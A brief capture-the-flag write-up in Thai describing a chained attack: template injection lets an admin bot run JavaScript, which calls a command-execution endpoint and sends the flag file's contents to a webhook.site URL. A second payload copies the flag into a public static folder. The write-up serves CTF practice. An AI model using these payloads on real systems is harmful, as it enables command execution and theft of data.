






ssti (|safe) ยอให้ execute javascript

มี bot คอยอ่าน

if remote_address != "127.0.0.1" and remote_address != "::1":

จึงต้อง เรีก api ผ่าน bot 

attack flow :

1. ใส่ fake email ใน /addresses ที่เรียก /api/stats 

2. /api/stats เป็น get รับ command parameter ซึ่งถูก execute จริง

3. ส่ง output ของ /api/stats ให้ webhook

fetch('http://localhost:1337/api/stats?command=cat+../flag6fcb7a8e4d.txt').then(r=>r.text()).then(d=>fetch('https://webhook.site/ff5fd505-0c4f-4ec1-ad1d-6923e84d4d63',{method:'POST',body:d}))

// localhost มักจะผ่าน CORS ได้ง่ายกว่า
localhost:1337 → localhost:1337 ✅

// IP address อาจถูกบล็อกโดย CORS
127.0.0.1:1337 → 127.0.0.1:1337 ❌

fetch("/api/stats?command=cp+/flag*+/app/static/flag.txt")  สุดยอด